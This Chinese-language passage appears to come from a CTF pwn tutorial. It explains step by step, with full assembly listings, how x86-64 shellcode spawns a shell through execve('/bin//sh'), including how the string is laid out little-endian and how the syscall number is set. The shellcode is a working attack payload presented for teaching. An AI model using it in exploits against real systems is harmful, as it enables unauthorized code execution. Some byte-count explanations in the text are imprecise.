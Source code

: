 函数截断属性：https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/16/input/

第二步：把"/bin/sh"传入rdi。这里只需要/bin/sh所在地址对应的ascii码传入rdi即可，这和C语言调用指针的方法相似——把地址扔给寄存器，寄存器自己去看地址里面存了什么东西。

```
xor rdi,rdi //现在rdi存储的值是0）
push rdi   //把rdi（值为0）入栈，用来截断execve函数
mov rdi,0x68732f2f6e69622f  //更改rdi值
push rdi    //将bin/sh/压入栈顶
lea rdi,[rsp]     //等同于mov rdi,rsp  把rsp本身的值（rsp本身就是个地址）赋值给rdi
```

这里还是要注意一下，最后一步是把rsp的地址（栈顶指针）赋给rdi，而不是把rsp里面存的东西扔给rdi。

0x68732f2f6e69622f是/bin//sh对应的ascii码。**并且他是倒着存的**，因为asm在把我们写的**汇编语言转换成机器码的时候，会因为小端序的原因将输入的内容给倒过来**。别的机器码我们不用担心，但是我们输入的字符串，需要手动先给倒过来一次，这样等到汇编语言转换成机器码的时候，再倒过来一次，程序处理字符串的时候，就会拿到真正的参数/bin//sh，而非hs//nib/

0x68732f2f6e69622f中间这里出现了两2f(也就是两个/)，因为这里要填充够八个字节（64位程序中，一个内存单元就只能装八个字节）。

在网上还找到了一种更加简洁的写法：

```
xor rdi,rdi
mov rdi,0x68732f6e69622f
push rdi
push rsp
pop rdi
```

通过去掉一个2f和去掉0的方式让mov指令只填充乐四个字节，这时系统发现填入的长度小于一个内存单元，会自动在mov指令内容之后再加0补全为8字节，自动截断了execve函数。

push rsp：将rsp的值（地址）压栈

pop rdi:把栈顶内容弹给rdi，即把刚刚赋值的rsp再赋值给rdi

第三步：将execve系统调用号赋值rax，syscall

```
xor rax,rax

mov rax,0x3b

syscall
```

总代码如下：

```
xor rax,rax
push 0x3b
pop rax
xor rdi,rdi
mov rdi ,0x68732f6e69622f
push rdi
push rsp
pop rdi
xor rsi,rsi
xor rdx,rdx
syscall
```
